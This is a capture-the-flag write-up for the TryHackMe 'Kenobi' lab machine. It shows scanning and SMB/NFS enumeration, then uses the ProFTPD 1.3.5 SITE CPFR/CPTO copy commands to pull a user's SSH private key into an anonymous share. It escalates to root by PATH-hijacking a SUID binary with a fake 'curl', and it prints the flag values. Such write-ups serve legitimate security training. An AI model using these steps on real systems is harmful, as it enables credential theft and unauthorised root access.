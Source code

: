 # 27 SEP 2021 | hussien Misbah | kenobi THM


export IP=10.10.215.96

# Scanning 

$ nmap -sV -v $IP -oN nmap/intial

```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)

```
$ nmap -sC -v  $IP -oN nmap/default_scripts

useful info from output :
```bash

samba version : Samba 4.3.11-Ubuntu
Computer name: kenobi

```

# enumeration 


port 80 :
---------
found /robots.txt 

visit :http://10.10.215.96/admin.html

"it is a trap"

- so it is just a rabbit hole .

port 445  :
----------

$ ./enum4linux.pl 10.10.215.96 

output :

```bash

//10.10.215.96/anonymous	Mapping: OK Listing: OK Writing: N/A

```

$ smbclient //10.10.215.96/anonymous     

smb:\> get log.txt


log.txt :

```

private key : /home/kenobi/.ssh/id_rsa
[anonymous]
path = /home/kenobi/share  ==> ftp running on 

```


port 111 :
---------

Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```bash

$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.215.96

```

or 

```bash

$ showmount -e  10.10.215.96
Export list for 10.10.215.96:

/var *

```
so port 111 is making  /var as a server 


port 21 :
----------

version : ProFTPD 1.3.5

/home/kali/OSCP/5/exercise_2/grep_exploits.sh 'ProFTPD 1.3.5' 

3 exploits found 

# exploitation 

putting all this together ^^ 

hence we have access to /home/kenobi/share from the smb , and we know the path of id_rsa , Also we have exploit for version of ftp enables us to move a file to another location in the server , we can copy /home/kenobi/.ssh/id_rsa ==>  /home/kenobi/share/id_rsa , then we can get this file latter thanks to smb ! 



```bash

$ nc $IP 21                                

220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.215.96]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO  /home/kenobi/share/id_rsa
250 Copy successful

```
$ smbclient //10.10.215.96/anonymous

smb: \> get id_rsa

now we have it ! 


# access 

sudo ssh -i ida_rsa kenobi@$IP 


============================we are in ===============================


user flag > d0b0f3f53b6caa532a83915e19224899



# privilege escalation


$ find /  -user root -perm -4000 2>/dev/null


grep -Fxv -f suid_mine sudi_machine


+/usr/bin/menu  is odd 


path poisonning :
-------------------
hence in option 1 it will curl local host 
we can notice that from output or from strings command 

we can update PATH variable so it will search for curl at a palce from our choice before it search in default path 

```bash

kenobi@kenobi:~/share$echo "/bin/bash" > curl
kenobi@kenobi:~/share$chmod 777 curl 
kenobi@kenobi:~/share$export PATH=~/share:$PATH

```

* Setting 777 permissions to a file or directory means that it will be readable, writable and executable by all users

hence it will execute the /bin/bash as file owner which is "root" obviously ^^ 

we can have a bash root shell !


> root flag : 177b3cd8562289f37382721c28381f02



# done         

